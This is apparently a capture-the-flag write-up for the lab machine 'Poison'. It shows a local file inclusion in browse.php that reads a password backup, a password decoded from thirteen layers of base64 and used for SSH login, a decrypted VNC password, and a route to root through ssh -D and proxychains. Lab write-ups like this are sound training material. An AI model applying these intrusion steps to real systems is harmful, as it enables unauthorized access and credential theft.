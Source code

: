 # Poison

## Machine Info

![Poison](./Poison.assets/Poison.png)

## Recon

- nmap

```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2 (FreeBSD 20161230; protocol 2.0)
| ssh-hostkey:
|   2048 e3:3b:7d:3c:8f:4b:8c:f9:cd:7f:d2:3a:ce:2d:ff:bb (RSA)
|   256 4c:e8:c6:02:bd:fc:83:ff:c9:80:01:54:7d:22:81:72 (ECDSA)
|_  256 0b:8f:d5:71:85:90:13:85:61:8b:eb:34:13:5f:94:3b (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((FreeBSD) PHP/5.6.32)
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
|_http-server-header: Apache/2.4.29 (FreeBSD) PHP/5.6.32
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: FreeBSD 11.0-RELEASE - 12.0-CURRENT (97%), FreeBSD 11.1-STABLE (97%), FreeBSD 11.1-RELEASE or 11.2-STABLE (96%), FreeBSD 11.2-RELEASE - 11.3 RELEASE or 11.2-STABLE (96%), FreeBSD 11.3-RELEASE (96%), FreeBSD 11.0-STABLE (95%), FreeBSD 11.1-RELEASE (95%), FreeBSD 11.0-CURRENT (94%), FreeBSD 11.0-RELEASE (94%), FreeBSD 12.0-RELEASE - 13.0-CURRENT (93%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OS: FreeBSD; CPE: cpe:/o:freebsd:freebsd
```

- path recon, `http://10.10.10.84/browse.php?file=`

## Foothold

### Pass File Inclusion

- **LFI** POC

![image-20231217044714393](./Poison.assets/image-20231217044714393.png)

- http://10.10.10.84/browse.php?file=listfiles.php

```php
Array ( [0] => . [1] => .. [2] => browse.php [3] => index.php [4] => info.php [5] => ini.php [6] => listfiles.php [7] => phpinfo.php [8] => pwdbackup.txt ) 
```

- http://10.10.10.84/browse.php?file=pwdbackup.txt -> encoded password file -> **hint**: 13 times of what [?] -> base64

```
This password is secure, it's encoded atleast 13 times.. what could go wrong really..

Vm0wd2QyUXlVWGxWV0d4WFlURndVRlpzWkZOalJsWjBUVlpPV0ZKc2JETlhhMk0xVmpKS1IySkVU
bGhoTVVwVVZtcEdZV015U2tWVQpiR2hvVFZWd1ZWWnRjRWRUTWxKSVZtdGtXQXBpUm5CUFdWZDBS
bVZHV25SalJYUlVUVlUxU1ZadGRGZFZaM0JwVmxad1dWWnRNVFJqCk1EQjRXa1prWVZKR1NsVlVW
M040VGtaa2NtRkdaR2hWV0VKVVdXeGFTMVZHWkZoTlZGSlRDazFFUWpSV01qVlRZVEZLYzJOSVRs
WmkKV0doNlZHeGFZVk5IVWtsVWJXaFdWMFZLVlZkWGVHRlRNbEY0VjI1U2ExSXdXbUZEYkZwelYy
eG9XR0V4Y0hKWFZscExVakZPZEZKcwpaR2dLWVRCWk1GWkhkR0ZaVms1R1RsWmtZVkl5YUZkV01G
WkxWbFprV0dWSFJsUk5WbkJZVmpKMGExWnRSWHBWYmtKRVlYcEdlVmxyClVsTldNREZ4Vm10NFYw
MXVUak5hVm1SSFVqRldjd3BqUjJ0TFZXMDFRMkl4WkhOYVJGSlhUV3hLUjFSc1dtdFpWa2w1WVVa
T1YwMUcKV2t4V2JGcHJWMGRXU0dSSGJFNWlSWEEyVmpKMFlXRXhXblJTV0hCV1ltczFSVmxzVm5k
WFJsbDVDbVJIT1ZkTlJFWjRWbTEwTkZkRwpXbk5qUlhoV1lXdGFVRmw2UmxkamQzQlhZa2RPVEZk
WGRHOVJiVlp6VjI1U2FsSlhVbGRVVmxwelRrWlplVTVWT1ZwV2EydzFXVlZhCmExWXdNVWNLVjJ0
NFYySkdjR2hhUlZWNFZsWkdkR1JGTldoTmJtTjNWbXBLTUdJeFVYaGlSbVJWWVRKb1YxbHJWVEZT
Vm14elZteHcKVG1KR2NEQkRiVlpJVDFaa2FWWllRa3BYVmxadlpERlpkd3BOV0VaVFlrZG9hRlZz
WkZOWFJsWnhVbXM1YW1RelFtaFZiVEZQVkVaawpXR1ZHV210TmJFWTBWakowVjFVeVNraFZiRnBW
VmpOU00xcFhlRmRYUjFaSFdrWldhVkpZUW1GV2EyUXdDazVHU2tkalJGbExWRlZTCmMxSkdjRFpO
Ukd4RVdub3dPVU5uUFQwSwo=
```

- base64 decoding 13 times -> `Charix!2#4%6&8(0`
- ssh conn, `charix:Charix!2#4%6&8(0`

![image-20231217044901412](./Poison.assets/image-20231217044901412.png)

## Privilege Escalation

### charix -> root

- find a zip file, `secret.zip` -> unzip secret.zip with password: `Charix!2#4%6&8(0`

![image-20231217045150426](./Poison.assets/image-20231217045150426.png)

- decode vnc password, [trinitronx/vncpasswd.py: A Python implementation of vncpasswd, w/decryption abilities & extra features ;-) (github.com)](https://github.com/trinitronx/vncpasswd.py); When know this is a password of vncserver at this point? -> after enumerating process in this machine

![image-20231217045207733](./Poison.assets/image-20231217045207733.png)

- process and port enum
  - smmsp -> nothing to use
  - Xvnc

![image-20231217045405663](./Poison.assets/image-20231217045405663.png)

![image-20231217045408863](./Poison.assets/image-20231217045408863.png)

```bash
charix@Poison:~ % ps aux | grep vnc
root   529   0.0  0.9  23620  8872 v0- I    18:35     0:00.03 Xvnc :1 -desktop X -httpd /usr/local/share/tightvnc/classes -auth /root/.Xauthority -geometry 1280x800 -depth 24 -rfbwait 120000 -rfbauth /root/.vnc/passwd -rfbport 5901 -localhost -nolisten tcp :1
```

- vnc server info: 5901 port, root priv
- port forwarding and vncviewer conn: **ssh -D** and **proxychains**

```
-D [bind_address:]port
   Specifies a local “dynamic” application-level port forwarding.  This works by allocat‐
   ing a socket to listen to port on the local side, optionally bound  to  the  specified
   bind_address.  Whenever a connection is made to this port, the connection is forwarded
   over  the secure channel, and the application protocol is then used to determine where
   to connect to from the remote machine.  Currently the SOCKS4 and SOCKS5 protocols  are
   supported,  and  ssh  will  act  as  a SOCKS server.  Only root can forward privileged
   ports.  Dynamic port forwardings can also be specified in the configuration file.

   IPv6 addresses can be specified by enclosing the address in square brackets.  Only the
   superuser can forward privileged ports.  By default, the local port is bound in accor‐
   dance with the GatewayPorts setting.  However, an explicit bind_address may be used to
   bind the connection to a specific address.  The bind_address of “localhost”  indicates
   that the listening port be bound for local use only, while an empty address or ‘*’ in‐
   dicates that the port should be available from all interfaces.
```

VNC connection procedures:

- `ssh -D 9050 charix@$IP`
- `proxychains vncviewer 127.0.0.1:5901 -passwd secret`, **/etc/proxychains4.conf**:

```
[ProxyList]
socks4  127.0.0.1 9050
socks5  127.0.0.1 9050
```

![image-20231217045629098](./Poison.assets/image-20231217045629098.png)

## Exploit Chain

path recon -> LFI -> encoded file -> decode multiple times -> ssh cred -> charix shell -> secret file found and unzip -> vnc cred -> process & port enum -> vnc service found -> proxychains + ssh -D -> root shell

